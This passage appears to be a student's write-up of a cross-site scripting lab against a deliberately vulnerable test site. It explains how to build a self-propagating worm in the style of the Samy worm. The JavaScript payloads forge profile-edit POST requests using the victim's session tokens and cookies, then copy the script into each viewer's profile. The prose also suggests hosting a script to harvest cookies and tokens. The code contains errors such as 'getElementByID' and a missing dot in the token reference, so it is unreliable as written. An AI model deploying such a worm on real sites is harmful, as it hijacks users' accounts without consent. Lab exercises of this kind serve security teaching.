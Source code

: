 The above code will first change the `user11`'s 'about me' portion to "User-11-is-great". Therefore, this will not affect others who view this profile. However, considering we have access to the server (the server has been hacked in our favor), then this script can be embedded in the server website hosting folder, from where it can be sourced like the image format to obtain the cookie and tokens. This way when any user visits the infected profile, the script will get loaded due to the image format js code in the infected profile.
Also, this method can be used to change the contents of a user by forming a request using python or any other programming language (assuming the authentication parameters are already with the attacker).
The best possible attack for a web app like this one which is vulnerable to XSS is using a proper worm i.e., self propagating worm.

### Task 6 : Creating a self propagating worm
The parts of adding the attacker as a friend as well as posting on the victim's account, without the victim's consent can be combined into one javascript code and then made self propagating.

The process of self propagating sees the following approach -
The code will have to be replicated by the code itself. This can be done by using the POST method as described in Task 5. The method to do the following is -
```js
<script id="daut" type="text/javascript">
var replicate="<script id=\"daut\" type=\"text/javascript\">".concat(document.getElementByID("daut").innerHTML).concat("</").concat("script>");
...............
</script>
```
The breakup of `</` and `script>` is required as the browser may distinguish it as the ending tag for the first `<script>`.

This approach can be merged with the POST exploit to copy the required update and the code itself onto the victim's account. The transfer of all code and data in the web takes place through URLencoding in which `+` denotes a `<space>`. Therefore, instead of using `+` to add strings (concatenation), we use the `concat()` function. Also if there are any addition operations, they should be done using `a+b = a-(-b)` method.

The code clubbed with the POST exploit is as follows -
```js
<script id="daut" type="text/javascript">
var sp="<script id=\"daut\" type=\"text/javascript\">".concat(document.getElementByID("daut").innerHTML).concat("</").concat("script>");
var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;
ff=new XMLHttpRequest();
ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie",document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
ff.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/".concat(elgg.session.user["username"]).concat("/edit"));
params="__elgg_ts=".concat(ts).concat("&__elgg_token=").concat(token).concat("&description=User-11-is-great").concat(escape(sp)).concat("&name=").concat(elgg.session.user["username"]).concat("&accesslevel[description]=2&guid=").concat(elgg.session.user["guid"]);
ff.send(params);
```
The `escape()` function converts the inner strings to URLencoding for http transfer. Now when a user views the profile of `user11`, the user's account will have its 'about me' section set to "User-11-is-great". Also the code itself will be copied to the user's page.
Also now since the code is in the user's page, whenever a user views the account of this user, the code will get executed and the new user will also have his account modified.
The add friend exploit can also e added to the above code as a new XMLHttpRequest part. That code will become the exact replica of the famous Samy's worm attack of 2005.
